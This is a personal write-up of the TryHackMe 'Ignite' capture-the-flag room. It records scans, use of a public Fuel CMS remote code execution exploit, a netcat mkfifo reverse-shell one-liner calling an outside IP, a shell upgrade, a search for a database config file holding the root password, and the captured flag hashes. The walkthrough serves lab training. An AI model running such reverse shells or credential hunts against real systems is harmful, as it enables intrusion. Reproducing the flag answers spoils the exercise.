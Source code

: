 # Nmap

nmap -sC -sV -oA scan $IP
![[Pasted image 20220120041007.png]]
Found Apache server on Port 80

# Website
Found some key info regarding admin page
![[Pasted image 20220120041207.png]]
![[Pasted image 20220120044622.png]]

# Dirb
dirb http://$IP -N 403,404,400 | grep 200
![[Pasted image 20220120042237.png]]


# Searchsploit 
![[Pasted image 20220120041358.png]]
Found RCE for fuel cms on exploit db
Did some changes and it worked perfectly
![[Pasted image 20220120041940.png]]

# After Exploit.py
Got reverse shell but not root yet 
Netcat payload for revshell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.5.63 4444 >/tmp/f

![[Pasted image 20220120043727.png]]
I used python payload to get an interactive shell
python -c "import pty; pty.spawn('/bin/bash')"
and we got the flag.txt
6470e394cbf6dab6a91682cc8585059b
![[Pasted image 20220120044151.png]]

# PrivEsc
Now time to get to root
On the site we found out that the username and password is in database.php as shown

[[Pasted image 20220120044622.png]]
Lets find that 
find / -name 'database.php' 2>/dev/null
/var/www/html/fuel/application/config/database.php
I found the password for root and captured the flag
b9bbcb33e11b80be759c4e844862482d
![[Pasted image 20220120045157.png]]


# References 
There are many ways to solve this room like
- https://floreaiulianpfa.com/igniter-try-hack-me/
- https://tryhackme.com/resources/blog/ignite-writeup
- https://exploits.run/ignite/

# Room Link
- https://tryhackme.com/room/ignite
